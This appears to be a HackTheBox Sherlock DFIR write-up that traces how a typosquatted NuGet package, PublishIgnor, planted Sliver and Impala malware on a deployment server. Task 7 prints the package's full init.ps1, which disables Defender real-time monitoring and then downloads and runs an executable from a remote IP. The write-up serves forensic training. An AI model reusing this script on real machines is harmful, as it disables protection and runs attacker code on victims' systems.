

# [Nuts](https://app.hackthebox.com/sherlocks/Nuts) - HackTheBox Sherlock Writeup

```
Sherlock    : Nuts
Category    : DFIR
Difficulty  : Medium
```

---

## Scenario

As the team was nearing the deadline for pushing their project to production,
one of the engineers, Alex, took charge of the deployment process. Alex had
been exploring ways to expedite the deployment process and had recently
discovered a package that promised to streamline the process significantly.
Excited about the prospect of saving time, Alex decided to utilise this package
for the deployment. As Alex began the deployment process using the package, he
noticed that the CPU usage on the deployment server started to spike unusually
high. Concerned about this anomaly, he decided to ask for help.

A triage image has been acquired for examination. The primary objective is to
ascertain the means by which this malware infiltrated the organisation,
successfully evading the existing security measures.

---

## 0. Setup

```bash
$ wget 'https://labs.hackthebox.com/api/v4/challenges/752/cdn/redirect?....' -O nuts.zip
$ unzip nuts.zip
```


---

# Task 1
> What action did Alex take to integrate the purported time-saving package into the deployment process? (provide the full command)

Answer: `nuget install PublishIgnor -Version 1.0.11-beta`

This is a snapshot of a Windows computer, so the first place to look is the
PowerShell history of the user:

```
$ find Nuts -iname "ConsoleHost_history.txt"
Nuts/C/Users/Administrator/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadline/ConsoleHost_history.txt

$ cat Nuts/C/Users/Administrator/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadline/ConsoleHost_history.txt
Set-ExecutionPolicy -ExecutionPolicy Unrestricted
python -m pip install setuptools
mkjffffffffff
f
cd .\Desktop\
mkdir elastic
cd .\elastic\
$ProgressPreference = 'SilentlyContinue'
Invoke-WebRequest -Uri https://artifacts.elastic.co/downloads/beats/elastic-agent/elastic-agent-8.3.2-windows-x86_64.zip -OutFile elastic-agent-8.3.2-windows-x86_64.zip
nuget
nuget install PublishIgnor --version 1.0.11-beta
nuget install PublishIgnor -Version 1.0.11-beta
./kape.exe --tsource C:\ --tdest '\\vmware-host\Shared Folders\yep' --target KapeTriage --zip output
```

The package was installed with `nuget install`.

---

# Task 2
> Identify the URL from which the package was downloaded.

Answer: https://www.nuget.org/packages/PublishIgnor/

Searching the whole image for the package name shows where it left traces:

```
$ rg -lai "publishignor" Nuts/
Nuts/C/$MFT
Nuts/C/Users/Administrator/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadline/ConsoleHost_history.txt
Nuts/C/Users/Administrator/AppData/Roaming/Microsoft/Windows/Recent/AutomaticDestinations/5f7b5f1e01b83767.automaticDestinations-ms
Nuts/C/Users/Administrator/AppData/Roaming/Microsoft/Windows/Recent/AutomaticDestinations/f01b4d95cf55d32a.automaticDestinations-ms
Nuts/C/Users/Administrator/AppData/Local/Google/Chrome/User Data/segmentation_platform/ukm_db
Nuts/C/Users/Administrator/AppData/Local/Google/Chrome/User Data/Default/History
Nuts/C/Users/Administrator/AppData/Local/Google/Chrome/User Data/Default/Network Action Predictor
Nuts/C/Users/Administrator/AppData/Local/Google/Chrome/User Data/Default/Shortcuts
Nuts/C/Users/Administrator/AppData/Local/Google/Chrome/User Data/Default/Cache/Cache_Data/data_1
Nuts/C/Users/Administrator/AppData/Local/Google/Chrome/User Data/Default/Sessions/Session_13355347028689620
Nuts/C/Users/Administrator/AppData/Local/Google/Chrome/User Data/Default/Favicons
Nuts/C/Users/Administrator/AppData/Local/NuGet/v3-cache/670c1461c29885f9aa22c281d8b7da90845b38e4$ps_api.nuget.org_v3_index.json/list_publishignor_index.dat
Nuts/C/Users/Administrator/PublishIgnor.1.0.11-beta/PublishIgnor.1.0.11-beta.nupkg
Nuts/C/ProgramData/Microsoft/Windows Defender/Support/MPLog-20231206-044317.log
```

Google Chrome is involved a lot, so the browser history is the next stop:

```
$ sqlite3 "Nuts/C/Users/Administrator/AppData/Local/Google/Chrome/User Data/Default/History" \
  "SELECT url, title FROM urls WHERE title LIKE '%Ignor%' OR url LIKE '%Ignor%';"
```

| url | title |
|---|---|
| https://www.nuget.org/packages/PublishIgnor/ | NuGet Gallery \| PublishIgnor 1.0.11-beta |

The Google searches show how Alex ended up with this package:

```
$ sqlite3 "Nuts/C/Users/Administrator/AppData/Local/Google/Chrome/User Data/Default/History" \
  "SELECT title FROM urls WHERE url LIKE '%google.com/search%' ORDER BY last_visit_time DESC;"
```

| title |
|---|
| nuget package for execluing testing files |
| What is nuget ? |
| package for execluing all the testing files in .net framework |
| package for execluing all the testing files in .net framework |
| am working on this projcet using .net framework, how can i publich it execluing all the files used for testing ( is there a plugin or packge for that?) |
| am working on this projcet using .net framework, how can i publich it execluing all the files used for testing |
| github .net website ecommerce project |
| who is this guy named a1l4m? |

---

# Task 3
> Who is the threat actor responsible for publishing the malicious package? (the name of the package publisher)

Answer: a1l4m

Visiting https://www.nuget.org/packages/PublishIgnor/ confirms that `a1l4m` is
the publisher of the package.

---

# Task 4
> When did the attacker initiate the download of the package? Provide the timestamp in UTC format (YYYY-MM-DD HH:MM).

Answer: 2024-03-19 18:41

An online search for the name shows that the legitimate package is
https://www.nuget.org/packages/PublishIgnore (note the `e` at the end). The
attacker dropped that single letter.

Let's find the files that belong to the package:

```
$ find Nuts/ -iname "*publishignor*"
Nuts/C/Users/Administrator/AppData/Local/NuGet/v3-cache/670c1461c29885f9aa22c281d8b7da90845b38e4$ps_api.nuget.org_v3_index.json/list_publishignor_index.dat
Nuts/C/Users/Administrator/PublishIgnor.1.0.11-beta
Nuts/C/Users/Administrator/PublishIgnor.1.0.11-beta/PublishIgnor.1.0.11-beta.nupkg
Nuts/C/Users/Administrator/.nuget/packages/publishignor
Nuts/C/Users/Administrator/.nuget/packages/publishignor/1.0.11-beta/publishignor.1.0.11-beta.nupkg.sha512
Nuts/C/Users/Administrator/.nuget/packages/publishignor/1.0.11-beta/publishignor.nuspec
Nuts/C/Users/Administrator/.nuget/packages/publishignor/1.0.11-beta/publishignor.1.0.11-beta.nupkg
```

The timestamp of the downloaded `.nupkg` file tells us when the package landed
on the machine:

```
$ stat "Nuts/C/Users/Administrator/.nuget/packages/publishignor/1.0.11-beta/publishignor.1.0.11-beta.nupkg"
  File: Nuts/C/Users/Administrator/.nuget/packages/publishignor/1.0.11-beta/publishignor.1.0.11-beta.nupkg
  Size: 14006     	Blocks: 32         IO Block: 4096   regular file
Device: 8,1	Inode: 1314862     Links: 1
Access: (0777/-rwxrwxrwx)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2026-10-15 14:55:15.820364062 +0200
Modify: 2024-03-19 19:41:54.000000000 +0100
Change: 2026-10-15 14:39:29.054374904 +0200
 Birth: 2026-10-15 14:39:29.054277052 +0200
                                               
```

`19:41:54 +0100` is **18:41:54 UTC**.

---

# Task 5
> Despite restrictions, the attacker successfully uploaded the malicious file to the official site by altering one key detail. What is the modified package ID of the malicious package?

Answer: PublishIgnor

We already know this from the PowerShell history:

```
nuget install PublishIgnor -Version 1.0.11-beta
```


---

# Task 6
> Which deceptive technique did the attacker employ during the initial access phase to manipulate user perception? (technique name)

Answer: typosquatting

`a1l4m` named the malicious package `PublishIgnor` to trick people who are
searching for the legitimate `PublishIgnore`.

---

# Task 7
> Determine the full path of the file within the package containing the malicious code.

Answer: `C:\Users\Administrator\.nuget\packages\publishignor\1.0.11-beta\tools\init.ps1`

```
$ ls -R Nuts/C/Users/Administrator/.nuget/packages/publishignor
Nuts/C/Users/Administrator/.nuget/packages/publishignor:
1.0.11-beta

Nuts/C/Users/Administrator/.nuget/packages/publishignor/1.0.11-beta:
publishignor.1.0.11-beta.nupkg  publishignor.1.0.11-beta.nupkg.sha512  publishignor.nuspec  tools

Nuts/C/Users/Administrator/.nuget/packages/publishignor/1.0.11-beta/tools:
init.ps1

$ cat Nuts/C/Users/Administrator/.nuget/packages/publishignor/1.0.11-beta/tools/init.ps1
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan $true
Clear-Host
$Path = "$env:ProgramData\Microsoft Visual Studio"
if (-not (Test-Path -Path $Path)) {
    New-Item -Path $Path -ItemType Directory -Force
}
Clear-Host
$ProcName = "uninstall.exe"
Clear-Host
$WebFile = "http://54.93.81.220:8000/$ProcName"
Clear-Host
Invoke-WebRequest -Uri $WebFile -OutFile "$Path\$ProcName"
Clear-Host
Start-Process -FilePath "$Path\$ProcName"
Clear-Host
```

The script does four things:

1. Disables the Defender real-time protection and the scanning of mapped
   network drives.
2. Creates the folder `C:\ProgramData\Microsoft Visual Studio`.
3. Downloads `uninstall.exe` from `http://54.93.81.220:8000/` into that folder.
4. Starts it.

---

# Task 8
> When tampering with the system's security settings, what command did the attacker employ?

Answer: `Set-MpPreference -DisableRealtimeMonitoring $true`

This is the first line of `init.ps1` and turns off the real-time protection of
Microsoft Defender.

---

# Task 9
> Following the security settings alteration, the attacker downloaded a malicious file to ensure continued access to the system. Provide the SHA1 hash of this file.

Answer: 57b7acf278968eaa53920603c62afd8b305f98bb

`uninstall.exe` should be in `C/ProgramData/Microsoft Visual Studio/`, but that
directory is empty. Since we want the SHA1 of a file we do not have, we look for
any log that mentions it:

```
$ ls "Nuts/C/ProgramData/Microsoft Visual Studio/"

$ rg "uninstall.exe" Nuts/
Nuts/C/Users/Administrator/PublishIgnor.1.0.11-beta/tools/init.ps1
9:$ProcName = "uninstall.exe"

Nuts/C/ProgramData/Microsoft/Windows Defender/Support/MPLog-20231206-044317.log
6834:2024-03-19T19:29:57.880Z SDN:Issuing SDN query for \\?\C:\ProgramData\Microsoft Visual Studio\uninstall.exe (\\?\C:\ProgramData\Microsoft Visual Studio\uninstall.exe) (sha1=57b7acf278968eaa53920603c62afd8b305f98bb, sha2=64a2edea2fdaca12b1e07cb52fd25fd6801a4807137027c4a16eac3dc8930db1)
6936:2024-03-19T19:33:32.970Z DETECTIONEVENT MPSOURCE_SYSTEM VirTool:Win32/Sliver.D!MTB file:C:\ProgramData\Microsoft Visual Studio\uninstall.exe;process:pid:12120,ProcessStart:133553498161844792;
6937:2024-03-19T19:33:32.972Z DETECTION_ADD#2 VirTool:Win32/Sliver.D!MTB file:C:\ProgramData\Microsoft Visual Studio\uninstall.exe PropBag [length: 0, data: (null)]
6957:Resource Path:C:\ProgramData\Microsoft Visual Studio\uninstall.exe
6989:Resource Path:C:\ProgramData\Microsoft Visual Studio\uninstall.exe
7003:Resource Path:C:\ProgramData\Microsoft Visual Studio\uninstall.exe
7293:2024-03-20T09:02:10.168Z DETECTION_ADD#2 VirTool:Win32/Sliver.D!MTB file:C:\ProgramData\Microsoft Visual Studio\uninstall.exe PropBag [length: 0, data: (null)]
```

Windows Defender detected the binary and logged its hashes in the MPLog:

```
sha1   : 57b7acf278968eaa53920603c62afd8b305f98bb
sha256 : 64a2edea2fdaca12b1e07cb52fd25fd6801a4807137027c4a16eac3dc8930db1
```

---

# Task 10
> Identify the framework utilised by the malicious file for command and control communication.

Answer: Sliver

The same MPLog lines show the Defender detection name for `uninstall.exe`:
`VirTool:Win32/Sliver.D!MTB`. Sliver is an open-source C2 framework.

---

# Task 11
> At what precise moment was the malicious file executed?

Answer: 2024-03-19 19:23:36

Windows keeps Prefetch files for executed programs in `C/Windows/prefetch`.
Linux cannot read them natively, so I used
[prefetcher](https://github.com/ajread4/prefetcher), which is based on
`libscca`:

```
$ git clone https://github.com/ajread4/prefetcher.git
$ cd prefetcher
$ pip install -r requirements.txt

$ python prefetcher.py -f ../Nuts/C/Windows/prefetch/UNINSTALL.EXE-07032A62.pf

Analyzing: ../Nuts/C/Windows/prefetch/UNINSTALL.EXE-07032A62.pf

Executable Name: UNINSTALL.EXE

Run Count: 1
Run Time:  2024-03-19 19:23:36.316385

Total Number of Files: 37
Total Number of Volumes: 1

Files Referenced

\VOLUME{01da27fe5611f512-f0564917}\WINDOWS\SYSTEM32\NTDLL.DLL
....
\VOLUME{01da27fe5611f512-f0564917}\WINDOWS\SYSTEM32\SAMLIB.DLL

Volume Information
\VOLUME{01da27fe5611f512-f0564917}
```

`uninstall.exe` ran exactly once, at 19:23:36 UTC.

---

# Task 12
> The attacker made a mistake and didn't stop all the features of the security measures on the machine. When was the malicious file detected? Provide the timestamp in UTC.

Answer: 2024-03-19 19:33:32

This is the `DETECTIONEVENT` line from the MPLog we already saw in Task 9:

```
Nuts/C/ProgramData/Microsoft/Windows Defender/Support/MPLog-20231206-044317.log:

6936:2024-03-19T19:33:32.970Z DETECTIONEVENT MPSOURCE_SYSTEM VirTool:Win32/Sliver.D!MTB file:C:\ProgramData\Microsoft Visual Studio\uninstall.exe;process:pid:12120,ProcessStart:133553498161844792;
```

---

# Task 13
> After establishing a connection with the C2 server, what was the first action taken by the attacker to enumerate the environment? Provide the name of the process.

Answer: whoami.exe

Sorting the Prefetch directory by modification time and showing
the line before `UNINSTALL`, we see what ran right after the implant:

```
$ ls -lat Nuts/C/Windows/prefetch | grep -B 1 UNINSTALL
-rwxrwxrwx 1 root root  3636 Mar 19  2024 WHOAMI.EXE-9D378AFE.pf
-rwxrwxrwx 1 root root  7055 Mar 19  2024 UNINSTALL.EXE-07032A62.pf
```

`WHOAMI.EXE` was executed right after `UNINSTALL.EXE`. This is a typical first
command to learn which user and privileges the implant runs with.

---

# Task 14
> To ensure continued access to the compromised machine, the attacker created a scheduled task. What is the name of the created task?

Answer: MicrosoftSystemDailyUpdates

Scheduled tasks are stored as XML files in `C:\Windows\System32\Tasks`. One of
them has a suspicious name and was created on the day of the attack:

```
$ ls -lat Nuts/C/Windows/System32/Tasks
total 40
drwxrwxrwx 5 root root 4096 Mar 21  2024  ..
drwxrwxrwx 4 root root 4096 Mar 20  2024  Microsoft
drwxrwxrwx 3 root root 4096 Mar 20  2024  .
-rwxrwxrwx 1 root root 3562 Mar 19  2024  MicrosoftSystemDailyUpdates
-rwxrwxrwx 1 root root 3488 Mar 16  2024  MicrosoftEdgeUpdateTaskMachineCore{22126DC0-F6B3-44A3-9E8C-DAD0C9B79B0B}
-rwxrwxrwx 1 root root 3612 Mar 16  2024  MicrosoftEdgeUpdateTaskMachineUA{E0F0215C-6914-486D-8A00-177EF2AFD836}
-rwxrwxrwx 1 root root 3584 Mar 16  2024 'OneDrive Reporting Task-S-1-5-21-3703689867-555221776-1578950957-500'
-rwxrwxrwx 1 root root 3392 Mar 16  2024 'OneDrive Standalone Update Task-S-1-5-21-3703689867-555221776-1578950957-500'
-rwxrwxrwx 1 root root 3666 Feb 28  2024  GoogleUpdateTaskMachineCore{A4260899-4CEF-4358-AA63-3644015122E2}
-rwxrwxrwx 1 root root 3790 Feb 28  2024  GoogleUpdateTaskMachineUA{B3887319-130B-45C6-8426-1AEDECCEC7AF}
```

All other tasks are older (Microsoft Edge, OneDrive, Google updaters).
`MicrosoftSystemDailyUpdates` is the newest one and uses a name made up of
legitimate sounding words to blend in with them.

---

# Task 15
> When was the scheduled task created? Provide the timestamp in UTC.

Answer: 2024-03-19 19:24:05

```
$ stat Nuts/C/Windows/System32/Tasks/MicrosoftSystemDailyUpdates
  File: Nuts/C/Windows/System32/Tasks/MicrosoftSystemDailyUpdates
  Size: 3562      	Blocks: 8          IO Block: 4096   regular file
Device: 8,1	Inode: 1314389     Links: 1
Access: (0777/-rwxrwxrwx)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2026-10-15 14:55:08.156533889 +0200
Modify: 2024-03-19 20:24:05.000000000 +0100
Change: 2026-10-15 14:39:28.921386794 +0200
 Birth: 2026-10-15 14:39:28.921279880 +0200
```

`20:24:05 +0100` is **19:24:05 UTC**, only about 30 seconds after
`uninstall.exe` was executed (Task 11).

---

# Task 16
> Upon concluding the intrusion, the attacker left behind a specific file on the compromised host. What is the name of this file?

Answer: file.exe

None of the logs and directories I looked at so far gave a hint about a file
left behind. Windows keeps the **USN journal**, a record of all changes made to
an NTFS volume, in `C/$Extend/$J`. It is a binary format that Linux cannot read
natively, but the project [usn_analytics](https://github.com/4n6ist/usn_analytics)
can parse it. Let's build it and parse the journal:

```
$ git clone https://github.com/4n6ist/usn_analytics.git
$ cd usn_analytics
$ make
g++ -std=gnu++11 -O3 -static -I./include/ lib/*.cpp src/*.cpp -o usn_analytics
$ cd ..

$ usn_analytics/usn_analytics -ru -o usn.log 'Nuts/C/$Extend/$J'
```

Now we search for newly created executables in the hour of the attack (the
execution of `uninstall.exe` was at 19:23 UTC):

```
$ rg '2024/03/19 19:.*"CREATE\(00000100"' usn.log/usn_parse_all.csv | grep '\.exe"'
"38264112"	"88"	"2"	"0"	"86933"	"4"	"86884"	"5"	"55041328"	"2024/03/19 19:19:36.408927"	"CREATE(00000100)"	"0"	"0"	"ARCHIVE(0020)"	"26"	"60"	"uninstall.exe"
"38275336"	"128"	"2"	"0"	"204"	"5"	"83587"	"1"	"55052552"	"2024/03/19 19:20:03.840547"	"CREATE(00000100)"	"0"	"0"	"ARCHIVE(0020)"	"62"	"60"	"WindowsPackageManagerServer.exe"
....
"39088208"	"88"	"2"	"0"	"847"	"7"	"245"	"13"	"55865424"	"2024/03/19 19:28:26.487410"	"CREATE(00000100)"	"0"	"0"	"ARCHIVE(0020)"	"24"	"60"	"AM_Delta.exe"
"39264360"	"80"	"2"	"0"	"818"	"9"	"1611"	"1"	"56041576"	"2024/03/19 19:30:04.014354"	"CREATE(00000100)"	"0"	"0"	"ARCHIVE(0020)"	"16"	"60"	"file.exe"
 ```

We see the `uninstall.exe` we already know about, and another suspicious file:
`file.exe`.

---

# Task 17
> As an anti-forensics measure. The threat actor changed the file name after executing it. What is the new file name?

Answer: Updater.exe

Now that we know the file name, let's look for it in the USN journal:

```
$ rg -A 1  "\"file.exe\"" usn.log/usn_parse_all.csv
334104:"39264360"	"80"	"2"	"0"	"818"	"9"	"1611"	"1"	"56041576"	"2024/03/19 19:30:04.014354"	"CREATE(00000100)"	"0"	"0"	"ARCHIVE(0020)"	"16"	"60"	"file.exe"
334105:"39264440"	"80"	"2"	"0"	"818"	"9"	"1611"	"1"	"56041656"	"2024/03/19 19:30:04.057446"	"CREATE|EXTEND(00000102)"	"0"	"0"	"ARCHIVE(0020)"	"16"	"60"	"file.exe"
334106:"39264520"	"80"	"2"	"0"	"818"	"9"	"1611"	"1"	"56041736"	"2024/03/19 19:30:04.097384"	"CREATE|EXTEND|CLOSE(80000102)"	"0"	"0"	"ARCHIVE(0020)"	"16"	"60"	"file.exe"
334107-"39264600"	"136"	"2"	"0"	"30503"	"1"	"15364"	"1"	"56041816"	"2024/03/19 19:30:04.142561"	"CLOSE(80000000)"	"0"	"0"	"ARCHIVE(0020)"	"74"	"60"	"System.ComponentModel.Composition.dll"
--
337930:"39712464"	"80"	"2"	"0"	"818"	"9"	"1611"	"1"	"56489680"	"2024/03/19 19:33:48.537447"	"OLDNAME(00001000)"	"0"	"0"	"ARCHIVE(0020)"	"16"	"60"	"file.exe"
337931-"39712544"	"88"	"2"	"0"	"818"	"9"	"1611"	"1"	"56489760"	"2024/03/19 19:33:48.537447"	"NEWNAME(00002000)"	"0"	"0"	"ARCHIVE(0020)"	"22"	"60"	"Updater.exe"
```

The `OLDNAME` / `NEWNAME` pair shows that the file was renamed to `Updater.exe`
at 19:33:48, 3 minutes after its creation.

---

# Task 18
> Identify the malware family associated with the file mentioned in the previous question (17).

Answer: Impala

Searching the file contents of the image for `Updater.exe` gives no results,
so no log mentions it. The same is true for `file.exe`.
Searching for the file by name finds the binary:

```
$ rg "Updater\.exe" Nuts/C/

$ find Nuts -iname "Updater.exe"
Nuts/C/ProgramData/Updater.exe
```

Windows Defender did not flag this file, so I checked it on
[VirusTotal](https://www.virustotal.com/):



Ikarus detects the file as malware of the family `Impala`.

---

# Task 19
> When was the file dropped onto the system? Provide the timestamp in UTC.

Answer: 2024-03-19 19:30:04

In the USN journal (Task 16) we already saw that `file.exe` was created at
`2024/03/19 19:30:04.014354`.

---

## Findings Summary

| # | Question | Answer |
|---|---|---|
| 1 | Command used to install the package | `nuget install PublishIgnor -Version 1.0.11-beta` |
| 2 | Package URL | `https://www.nuget.org/packages/PublishIgnor/` |
| 3 | Package publisher | `a1l4m` |
| 4 | Package download time (UTC) | `2024-03-19 18:41` |
| 5 | Modified package ID | `PublishIgnor` |
| 6 | Deceptive technique | `typosquatting` |
| 7 | File with malicious code | `C:\Users\Administrator\.nuget\packages\publishignor\1.0.11-beta\tools\init.ps1` |
| 8 | Security tampering command | `Set-MpPreference -DisableRealtimeMonitoring $true` |
| 9 | SHA1 of the downloaded file | `57b7acf278968eaa53920603c62afd8b305f98bb` |
| 10 | C2 framework | `Sliver` |
| 11 | Malicious file executed (UTC) | `2024-03-19 19:23:36` |
| 12 | Malicious file detected (UTC) | `2024-03-19 19:33:32` |
| 13 | First enumeration process | `whoami.exe` |
| 14 | Scheduled task name | `MicrosoftSystemDailyUpdates` |
| 15 | Scheduled task created (UTC) | `2024-03-19 19:24:05` |
| 16 | File left behind | `file.exe` |
| 17 | New file name after rename | `Updater.exe` |
| 18 | Malware family of `Updater.exe` | `Impala` |
| 19 | File dropped (UTC) | `2024-03-19 19:30:04` |

## Attack Timeline (UTC, 2024-03-19)

```
18:41:54  Alex installs the typosquatted package PublishIgnor 1.0.11-beta
19:19:36  uninstall.exe is written to C:\ProgramData\Microsoft Visual Studio\
19:23:36  uninstall.exe (Sliver implant) is executed
19:24:05  Scheduled task 'MicrosoftSystemDailyUpdates' is created
19:30:04  file.exe is dropped onto the system
19:33:32  Windows Defender detects uninstall.exe as VirTool:Win32/Sliver.D!MTB
19:33:48  file.exe is renamed to Updater.exe
```

## Lessons Learned

**For defenders:**

- **Verify packages before installing them.** A one-letter difference in the
  package ID (`PublishIgnor` vs. `PublishIgnore`) was enough.
- **do not work as Administrator without any need.** `init.ps1`
  ran with the rights of the user. The whole chain ran in the context of the
  `Administrator` account on a deployment server.
- **Enable Defender Tamper Protection.** The package disabled the real-time
  protection with a single `Set-MpPreference` call.

**What I learned**

- The USN journal provides information about changes that occur on an NTFS volume.
- Prefetch files provide information about when executables were run.

**Tools I used**

- `find`, `rg`, `stat`, `ls`: Searching the extracted triage image and reading file timestamps
- `sqlite3`: Querying the Chrome history database
- [`prefetcher`](https://github.com/ajread4/prefetcher): Parses Windows Prefetch files on Linux
- [`usn_analytics`](https://github.com/4n6ist/usn_analytics): Parses the NTFS USN journal
- [VirusTotal](https://www.virustotal.com/): Identifies the malware family of `Updater.exe`
